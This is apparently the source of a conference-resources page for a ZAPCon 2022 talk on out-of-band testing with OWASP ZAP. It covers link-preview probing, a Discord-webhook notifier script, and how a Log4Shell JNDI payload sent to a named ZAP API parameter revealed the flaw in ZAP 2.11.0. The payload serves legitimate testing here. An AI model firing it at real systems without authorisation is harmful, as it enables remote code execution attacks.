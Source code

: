 ```yaml
---
layout: default
title: ZAPCon 2022 - OAST with ZAP
description: "Resources related to my presentation on \"OAST with ZAP\" at ZAPCon 2022."
image: "/assets/images/zapcon2022-social.png"
---
```


<style>
  .video-container {
    position: relative;
    width: 95%;
    height: 0;
    padding-bottom: 56.25%;
    margin: 20px auto;
  }

  .video {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
  }

  ul {
    list-style-type: none;
    display: table;
    margin: 0 auto;
    padding: 0;
    overflow: hidden;
    border: 1px solid #e7e7e7;
    background-color: #f3f3f3;
  }

  li {
    float: left;    
  }

  li a {
    display: block;
    color: #666;
    text-align: center;
    padding: 14px 16px;
    text-decoration: none;
  }

  li a:hover:not(.active) {
    background-color: #ddd;
  }

  li a.active {
    color: white;
    background-color: #04AA6D;
  }
</style>

<center>
    <img src="/assets/images/zapcon2022-logo.svg" width="200vw">
    <h1>OAST with ZAP - Presentation Resources</h1>
</center>

<ul>
  <li><a href="/zapcon2022/">Home</a></li>
  <li><a href="/zapcon2022/slides/">Slides</a></li>
  <li><a class="active" href="/zapcon2022/demos/">Demos</a></li>
  <li><a href="/zapcon2022/links">Links</a></li>
</ul>

<br>

## Finding Discordbot's Address
Ever wonder how chat apps display link previews? In this demo, a URL was constructed using an Interactsh payload and pasted into a Discord channel. Soon after, a GET request appeared in ZAP's OAST Tab and the request had "Discordbot" in it's User-agent header value.

<div class="video-container"><iframe class="video" src="https://www.youtube-nocookie.com/embed/LmBwakpiA5o" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></div>

---

<br>

## Discovering Log4Shell in ZAP 2.11.0
A newer version of ZAP was used to discover Log4Shell in ZAP 2.11.0 by injecting a known Log4Shell payload in the `apikey` parameter of the `/JSON/alert/action/deleteAlert/` ZAP API endpoint. The payload used was `${jndi:ldap://{0}/abc}` where `{0}` was replaced by an Interactsh payload obtained from the OAST add-on.
<div class="video-container"><iframe class="video" src="https://www.youtube-nocookie.com/embed/e5q5GEkEIxM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></div>

---

<br>

## OAST Interaction Discord Notifier
A ZAP script was used to demonstrate the capabilities of OAST request handlers. The script in the demo registered an OAST request handler to send messages to a Discord webhook whenever a new OAST interaction was received.

<div class="video-container"><iframe class="video" src="https://www.youtube-nocookie.com/embed/QrYUHeg98uQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></div>

### ZAP Standalone Script Code (Nashorn)
You need a valid [Discord Webhook URL](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks) for this script to work.

```js
// This script registers an OAST message handler that sends interactions to a Discord webhook.

var Control = Java.type("org.parosproxy.paros.control.Control")
var Model = Java.type("org.parosproxy.paros.model.Model")
var extOast = Control.getSingleton().getExtensionLoader().getExtension("ExtensionOast")
var interactsh = extOast.getInteractshService()
var HttpSender = Java.type("org.parosproxy.paros.network.HttpSender")
var HttpMessage = Java.type("org.parosproxy.paros.network.HttpMessage")
var HttpHeader = Java.type("org.parosproxy.paros.network.HttpHeader")
var HttpRequestHeader = Java.type("org.parosproxy.paros.network.HttpRequestHeader")
var URI = Java.type("org.apache.commons.httpclient.URI")
var discordWebHookUrl = new URI("<Replace with Discord Webhook URL>", true)

function requestHandler(request) {
    var msg = request.getHistoryReference().getHttpMessage()
    var formattedRequestHeader = "```\n" + (msg.getRequestHeader().toString() || "---") + "\n```"
    var formattedRequestBody = "```\n" + (msg.getRequestBody().toString() || "---") + "\n```"
    embed1 = {
        "title": "Interaction",
        "fields": [
            { "name": "Request Header", "value": formattedRequestHeader },
            { "name": "Request Body", "value": formattedRequestBody },
            { "name": "Source", "value": request.getSource() || "---", "inline": true },
            { "name": "Referer", "value": request.getReferer() || "---", "inline": true },
            { "name": "Handler", "value": request.getHandler() || "---", "inline": true }
        ]
    }
    var content = ":sparkles: New interaction received.\n"
    var body = { "content": content, "embeds": [embed1] }

    var requestMethod = HttpRequestHeader.POST;
    var msg = new HttpMessage()
    msg.setRequestHeader(new HttpRequestHeader(requestMethod, discordWebHookUrl, HttpHeader.HTTP11));
    msg.getRequestHeader().setHeader(HttpHeader.CONTENT_TYPE, HttpHeader.JSON_CONTENT_TYPE);
    msg.setRequestBody(JSON.stringify(body))
    var sender = new HttpSender(Model.getSingleton().getOptionsParam().getConnectionParam(), true, HttpSender.MANUAL_REQUEST_INITIATOR);
    sender.sendAndReceive(msg)
}

interactsh.addOastRequestHandler(requestHandler)
print("OAST Discord Notifier registered.")
```
